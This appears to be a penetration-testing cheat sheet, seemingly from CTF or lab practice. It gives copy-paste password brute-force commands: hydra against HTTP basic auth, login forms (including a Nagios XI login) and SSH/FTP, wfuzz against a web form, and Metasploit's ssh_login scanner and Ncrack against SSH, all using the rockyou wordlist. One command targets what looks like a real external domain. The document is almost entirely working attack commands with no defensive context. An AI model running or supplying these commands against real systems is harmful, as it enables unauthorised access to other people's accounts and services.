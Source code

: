 
- https://github.com/gnebbia/hydra_notes

### Bruteforcing HTTP 

Basic authorization:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt "https-get://jfog.io/artifactory/api/build:F=403" -V -I
```

Bruteforcing a www-encoded login form with wfuzz

```bash
wfuzz -c -z file,/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt -d "log=FUZZ&pwd=secretPass123" "$URL"
```

Bruteforcing a www-encoded login form with hydra 

```bash
hydra -l nagiosadmin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/nagiosxi/login.php:username=^USER^&password=^PASS^:F=Invalid username or password." -V -I
```

## Bruteforcing SSH 

With hydra 

```bash
hydra -l gaara -P /usr/share/wordlists/rockyou.txt $IP -t 4 ssh -V -I
```

With Metasploit 

```bash
msfconsole -x "use auxiliary/scanner/ssh/ssh_login; set RHOSTS 192.168.222.82; set USERNAME geisha; set PASS_FILE /usr/share/wordlists/rockyou.txt; set THREADS 30; set VERBOSE true; run"
```

With Ncrack 

```bash
ncrack -p 22 --user geisha -P /usr/share/wordlists/rockyou.txt 192.168.222.82
```

### Bruteforcing FTP 

With hydra

```bash
hydra -l geisha -P /usr/share/wordlists/rockyou.txt 192.168.222.82 -t 30 ftp -V -I
```